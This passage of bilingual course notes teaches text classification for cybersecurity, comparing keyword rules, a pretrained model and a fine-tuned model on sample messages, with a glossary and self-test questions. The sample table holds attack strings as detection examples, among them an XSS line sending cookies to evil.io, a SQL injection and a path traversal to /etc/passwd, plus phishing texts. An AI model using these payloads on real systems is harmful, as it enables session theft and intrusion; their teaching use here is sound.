| ---------------------------------- | --------------------------------------------------------- | -------------------------------------------- |
| 1. **Pretrained**                  | Start from a ready model (text in → label out)            | 拿一个别人用海量数据训练好的模型（例如 Hugging Face 上的文本分类模型）   |
| 2. **Dataset**                     | **Lots of relevant labelled data** for your problem       | 准备**和你的问题相关、带标签**的数据（例如标好 phishing / ok 的邮件） |
| 3. **Fine-tune** → Finetuned model | Train / adapt; a finetuned model is produced              | 在你的数据上继续训练一小段，得到「你的」模型                       |
| 4. **Compare**                     | Results: **original pretrained model vs finetuned model** | 用同一批测试数据比较两者，证明微调有用                          |

> *Later course days deepen the train loop & evaluation — not today*（Week 5 Model Finetuning、Week 6 Model Evaluation）。

> **💡 小白类比：Transfer Learning**
>
> Pretrained 模型像一个读过整个互联网的通才，英语很好，但没见过你们公司的钓鱼邮件长什么样。Fine-tune 就是给他看几千封**标好答案**的公司邮件做岗前培训。他不用从学英语开始（这就是 **transfer learning**：把已经学会的能力迁移过来），只学「这个岗位」的特殊规律。

---

## 14. 🔴 From text to a label（Slide 28）



*Text in → Label out：Call a pretrained model → Get a class or tag → Person decides（Slide 28）*

|               | 课件原文                                                             | 例子                                                     |
| ------------- | ---------------------------------------------------------------- | ------------------------------------------------------ |
| **Text in**   | Raw cyber text                                                   | email · URL · NIST note · attack string                |
| **Label out** | Choose a class / label                                           | phishing vs ok · **Threat vs Benign** · NIST-style tag |
| 流程 1          | **Call a pretrained model** — Use a ready model; no training     |                                                        |
| 流程 2          | **Get a class or tag**                                           | phishing vs ok · Threat vs Benign                      |
| 流程 3          | **Person decides** — Use the score to triage; humans still judge |                                                        |

> **Key takeaway**：*Classification problem: text in → choose a class / label (e.g. Threat vs Benign).*

下面这个小实验把第 8、13、14 节串起来：同一批文字，分别交给**固定规则**、**通用 pretrained 模型**和**用网安数据 finetune 过的模型**，看谁漏报、谁误报；拖动阈值看「交给人看」那一堆怎么变。两个模型是**示意权重**（按特征加分），不是真模型，但问题的形状和真实项目一样。

*（网页版此处可以切换方法、拖动阈值、自己输入文字；规则 = 出现 password / verify / urgent / click 就判 Threat，两个模型是示意权重，阈值 0.5，离阈值 0.2 以内标「复核」）*

| 方法         | TP | FN 漏报 | FP 误报 | TN | 判对      |
| ---------- | -- | ----- | ----- | -- | ------- |
| 固定规则       | 1  | 8     | 3     | 3  | 4 / 15  |
| Pretrained | 4  | 5     | 1     | 5  | 9 / 15  |
| Finetuned  | 8  | 1     | 1     | 5  | 13 / 15 |

| Text in                                                                             | 真实     | 固定规则     | Pretrained         | Finetuned          |
| ----------------------------------------------------------------------------------- | ------ | -------- | ------------------ | ------------------ |
| `URGENT: your account will be suspended. Click here to verify your password`        | Threat | ✓ Threat | ✓ Threat (82%)     | ✓ Threat (80%)     |
| `Please confirm your credentials within 24h at http://hkust-secure-login.com`       | Threat | ✗ Benign | ✓ Threat (67%) ·复核 | ✓ Threat (96%)     |
| `Your parcel is on hold. Pay the fee at http://45.77.12.9/pay`                      | Threat | ✗ Benign | ✗ Benign (45%) ·复核 | ✓ Threat (83%)     |
| `bit.ly/3xYz free iPhone, claim now`                                                | Threat | ✗ Benign | ✓ Threat (71%)     | ✓ Threat (89%)     |
| `Buy 5 gift cards for the CEO and send me the codes today`                          | Threat | ✗ Benign | ✓ Threat (67%) ·复核 | ✓ Threat (69%) ·复核 |
| `' OR 1=1 --`                                                                       | Threat | ✗ Benign | ✗ Benign (18%)     | ✓ Threat (85%)     |
| `<script>fetch('http://evil.io/?c='+document.cookie)</script>`                      | Threat | ✗ Benign | ✗ Benign (18%)     | ✓ Threat (85%)     |
| `GET /download?file=../../etc/passwd`                                               | Threat | ✗ Benign | ✗ Benign (18%)     | ✓ Threat (85%)     |
| `Hi, it's Peter from finance. Can you send me the Q3 payroll file? I'm on my phone` | Threat | ✗ Benign | ✗ Benign (38%) ·复核 | ✗ Benign (35%) ·复核 |
| `Your HKUST password expires today. Log in to the usual ITSO portal to change it`   | Benign | ✗ Threat | ✗ Threat (67%) ·复核 | ✗ Threat (67%) ·复核 |
| `IT reminder: never share your password with anyone, including IT staff`            | Benign | ✗ Threat | ✓ Benign (25%)     | ✓ Benign (5%)      |
| `Click the link in the agenda to join the Zoom meeting`                             | Benign | ✗ Threat | ✓ Benign (21%)     | ✓ Benign (4%)      |
| `Team lunch moved to Friday 12:30`                                                  | Benign | ✓ Benign | ✓ Benign (11%)     | ✓ Benign (2%)      |
| `Invoice INV-2291 attached as discussed in our meeting`                             | Benign | ✓ Benign | ✓ Benign (25%)     | ✓ Benign (6%)      |
| `NIST CSF functions: Govern, Identify, Protect, Detect, Respond, Recover`           | Benign | ✓ Benign | ✓ Benign (11%)     | ✓ Benign (2%)      |

> **🎯 从实验里要看出的四件事**
>
> 1. **Rules hit limits**：规则只抓到第一封（四个关键词全中），换个说法（confirm your credentials）就漏；而 "never share your password" 这种安全培训反而被误报。
> 2. **Pretrained 是通才**：会认钓鱼话术，但没见过 `' OR 1=1 --`、`<script>`、`../../etc/passwd` 这些攻击字符串——这就是为什么要用**网安领域的带标签数据**做 fine-tune。
> 3. **Finetuned 也不是 100%**：没有任何特征词的社交工程（"Peter from finance" 要工资表）还是漏，真的 IT 通知也会被怀疑。所以 **Person decides**。
> 4. **阈值是业务决策**：调低 → 漏报少、误报多、分析师工作量大；调高 → 反过来。选哪个点取决于漏一封的代价和人工成本，这正是项目 D 部分要写的东西。

> **➕ 课外补充：真的调用一个 pretrained 模型大概长这样**
>
> ```python
> from transformers import pipeline
>
> clf = pipeline("text-classification", model="<Hugging Face 上的某个钓鱼邮件分类模型>")
> result = clf("Please confirm your credentials within 24h")[0]
> print(result)   # 例如 {'label': 'phishing', 'score': 0.93}
> ```
>
> `pipeline` 返回一个 list，每项是 dict：`label` 是类别，`score` 是模型有多确定。第 6 节的 object / method 思路在这里就用上了：`clf` 是一个对象，`clf(...)` 调用它。具体用哪个模型，后面的课会给。

---

## 15. 🟢 Possible Projects 与 Next Steps（Slides 29–30）



*Possible Projects：两个 Hugging Face Spaces 上的网安应用（Slide 29）*

老师给的两个参考项目都在 **Hugging Face Spaces** 上：

- `huggingface.co/spaces/FINAL-Bench/FreeWeb-Security-SCAN` — 网站的安全 / SEO / AI 可见性扫描
- `huggingface.co/spaces/Werea-co/argus-security-console` — 终端设备安全态势 (fleet posture) 控制台

**Next steps（Slide 30）**：

1. 今晚完成 Lab01 setup
2. 注册 GitHub、Hugging Face、HK GenAI Models 账号
3. 打开 `Python_Basics_Day01_student.ipynb` / playground

*Coming up: data structures · apps · finetuning — more in later sessions.*

---

## 🔴 综合缩写速查表

| 缩写 / 术语                           | 全称                                                                                                | 一句话                              |
| --------------------------------- | ------------------------------------------------------------------------------------------------- | -------------------------------- |
| **OOPL**                          | Object-Oriented Programming Language                                                              | 用「对象」组织数据和行为的语言，Python 是其中之一     |
| **property**                      | —                                                                                                 | 对象的状态，`obj.prop`，无括号             |
| **method**                        | —                                                                                                 | 对象能做的动作，`obj.method()`，有括号       |
| **f-string**                      | formatted string literal                                                                          | `f"Score: {score:.2f}"`，把变量嵌进字符串 |
| **Vibe coding**                   | —                                                                                                 | 用自然语言描述意图，AI 起草代码，人审查测试          |
| **API key**                       | Application Programming Interface key                                                             | 调用 API 的凭证，不能进 GitHub            |
| **`app.py` / `requirements.txt`** | —                                                                                                 | Streamlit 应用入口 / 依赖清单            |
| **Streamlit Cloud**               | —                                                                                                 | 从 GitHub repo 直接部署 Python 网页应用   |
| **AI / ML / DL**                  | Artificial Intelligence / Machine Learning / Deep Learning                                        | AI ⊃ ML（从数据学）⊃ DL（多层神经网络）        |
| **NLP**                           | Natural Language Processing                                                                       | 让机器处理人类语言                        |
| **GenAI**                         | Generative AI                                                                                     | 能生成文字、图片、代码的 AI                  |
| **DNN / CNN / RNN / LSTM / RL**   | Deep / Convolutional / Recurrent Neural Network · Long Short-Term Memory · Reinforcement Learning | Slide 24 的模型家族                   |
| **Transformer**                   | —                                                                                                 | ⊂ DL，现代 NLP / GenAI 的结构          |
| **Pretrained model**              | —                                                                                                 | 别人训练好、拿来直接用的模型                   |
| **Fine-tune**                     | —                                                                                                 | 用自己的带标签数据继续训练，得到 finetuned model |
| **Transfer learning**             | —                                                                                                 | 把已学会的能力迁移到新任务                    |
| **Supervised / Unsupervised**     | —                                                                                                 | 有标签 / 无标签                        |
| **Classification / Regression**   | —                                                                                                 | 预测类别 / 预测数字                      |
| **Clustering**                    | —                                                                                                 | 无标签，把相似的分成一群                     |
| **PCA**                           | Principal Component Analysis                                                                      | 降维                               |
| **Overfitting**                   | —                                                                                                 | 背下训练数据，新数据上差                     |
| **TP / FP / FN / TN**             | True / False Positive / Negative                                                                  | 抓到 / 误报 / 漏报 / 正确放行              |

---

## 模拟自测题

**这门课的成绩怎么构成？期末项目占多少？哪一部分比 Coding 本身占得还多？**

> Participation 14% + Homework 15%（3 × 5%）+ Final Project 71%。项目里 Coding 25%，但 Business / Security / User Requirements（21%）+ Expected Results（15%）+ Docs & Presentation（10%）= 46%，比 Coding 多。项目可一人或两人，选题先和老师讨论，必须交视频（不交扣 10%，不能用 GenAI 做视频）。

**2 学分的课，缺席几次要退课？迟到多久算缺席？**

> 累计 **4 次**缺席要退课，成绩单记 "W"；迟到 **30 分钟**或以上算缺席。

**课件说写 prompt 要 be specific，具体是哪四个要素？**

> **Task、inputs、constraints、format**——任务、输入、约束、输出格式。另外修改 prompt 时要保留 goal、data、constraints，并注意 quota 和 context 的限制，用 follow-up 逐步迭代。

**既然 AI 会写代码，为什么还要学 Python？说出课件的四个理由。**

> 1. **AI is confidently wrong**：代码能跑也可能是错的，只有读得懂 Python 的人能发现；
> 2. **Debugging is still yours**：AI 在错误的修法里打转时，要靠你理解真正的错误；
> 3. **You own the judgment**：业务逻辑和政策是否符合由你判断；
> 4. **Credibility is personal**：能解释数字怎么来的，建议才可信。  
>    总结：AI drafts · you understand, verify, and sign off。

**按顺序写出应用开发部署的两个阶段、八个步骤。**

> Phase 1（本地）：**Plan → Structure → Build → Test**；Phase 2（上线）：**Polish UI → GitHub → Streamlit Cloud → Share & Docs**。Phase 1 结束有一个本地能跑的应用，Phase 2 结束有一个公开网址的应用。

**部署到 Streamlit Cloud，repo 里至少要有哪两个文件？API key 应该放哪？**

> `app.py`（应用代码）和 `requirements.txt`（依赖清单）。API key 不能写进代码或 push 到 GitHub，要放在 Streamlit Cloud 的 Secrets 里，代码用 `st.secrets[...]` 读（课外补充）。

**下面各是 property、method 还是函数：df.shape、s.split(',')、len(s)、s.upper（没有括号）？**

> `df.shape` 是 **property**（状态，无括号）；`s.split(",")` 是 **method**（动作，有括号，带参数）；`len(s)` 是**内置函数**；`s.upper` 没加括号，拿到的是**方法对象本身**，没有执行——不会报错，但结果不是大写字符串。

**s = 'Hello'，执行 s.upper() 之后再 print(s)，输出什么？为什么？**

> 输出 `Hello`。str 是 immutable（不可变）的，`s.upper()` 返回一个**新**字符串 `"HELLO"`，但没有赋值给任何变量，`s` 本身不变。要保留结果得写 `s = s.upper()`。

**为什么网安里的文本问题不能只靠固定规则？**

> **Rules hit limits**：攻击者换个说法（confirm your credentials 而不是 verify your password）规则就漏；规则还会误报正常内容（安全培训里也会出现 password）。所以需要能**从数据学**的系统（ML），并且由人复核结果。

**AI、ML、DL、Transformer 是什么关系？「人写死的 if-then 规则系统」属于哪一层？**

> AI ⊃ ML ⊃ DL，Transformer ⊂ DL。ML 的特点是 learn from data without being explicitly programmed；DL 是用多层神经网络的 ML；Transformer 是现代 NLP / GenAI 的结构。人写死的规则系统属于 **AI 但不属于 ML**，因为它不从数据学。

**一个钓鱼邮件模型在训练集上准确率 99%，在新邮件上只有 70%。这是什么现象？项目报告里应该怎么避免？**

> **Overfitting**：模型背下了训练数据（包括噪声），没有学到能泛化的规律。要用**训练时没见过的测试数据**来评估（train / test split），报告测试集上的结果；必要时换更简单的模型或更多数据。

**判断：① 预测下季度销售额 ② 把客户自动分群 ③ 邮件 phishing / ok ④ PCA。各是什么学习方式、什么任务？**

> ① Supervised · **Regression**（输出数字）；② Unsupervised · **Clustering**；③ Supervised · **Classification**（输出类别）；④ Unsupervised · **Dimensionality reduction**。

**Finetuned models 的四个步骤是什么？第四步为什么重要？**

> **Pretrained → Dataset（大量相关的带标签数据）→ Fine-tune（得到 finetuned model）→ Compare（原 pretrained vs finetuned）**。第四步用同一批测试数据证明微调真的带来了提升，否则无法说明花时间准备数据和训练是值得的——这也是项目 Expected Results 部分要的证据。

**Slide 28 的流程是哪三步？为什么最后一步是人？**

> **Call a pretrained model → Get a class or tag → Person decides**。模型给出的是带分数的判断，会有误报和漏报（尤其是没有明显特征的社交工程）；用分数做 **triage**——明显的自动处理，不确定的交给人——最终决定由人负责（humans still judge）。

**把分类阈值从 0.5 调到 0.3，漏报和误报会怎么变？这是技术问题还是业务问题？**

> 更多文字被判成 Threat：**漏报 (FN) 减少、误报 (FP) 增加**，人工复核的工作量变大。阈值选在哪是**业务决策**：取决于漏掉一个威胁的损失和人工处理误报的成本，应该在项目需求和结果分析里写清楚。
